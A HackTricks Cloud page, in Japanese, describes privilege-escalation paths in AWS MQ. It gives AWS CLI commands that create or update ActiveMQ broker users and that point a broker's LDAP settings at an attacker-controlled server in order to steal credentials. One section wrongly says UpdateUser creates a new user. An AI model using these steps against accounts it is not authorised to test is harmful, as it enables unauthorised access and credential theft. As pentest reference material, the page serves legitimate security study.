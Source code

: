 # AWS - MQ Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

MQに関する詳細情報は次を確認してください:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

これらの権限を持つと、**ActimeMQブローカーに新しいユーザーを作成できます**（これはRabbitMQでは機能しません）:

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**潜在的な影響:** ActiveMQを通じて機密情報にアクセスする

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

これらの権限を持つことで、**ActiveMQブローカーに新しいユーザーを作成することができます**（これはRabbitMQでは機能しません）:

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**潜在的な影響:** ActiveMQを通じて機密情報にアクセスする

### `mq:ListBrokers`, `mq:UpdateBroker`

ブローカーが**ActiveMQ**で**LDAP**を使用して認証している場合、攻撃者が制御する**LDAPサーバー**に使用される**設定**を**変更**することが可能です。これにより、攻撃者は**LDAPを通じて送信されるすべての資格情報を盗む**ことができます。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
もしActiveMQで使用されている元の認証情報を見つけることができれば、MitMを実行し、認証情報を盗み、元のサーバーでそれを使用し、レスポンスを送信することができます（おそらく盗まれた認証情報を再利用するだけでこれを行うことができます）。

**潜在的な影響:** ActiveMQの認証情報を盗む

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
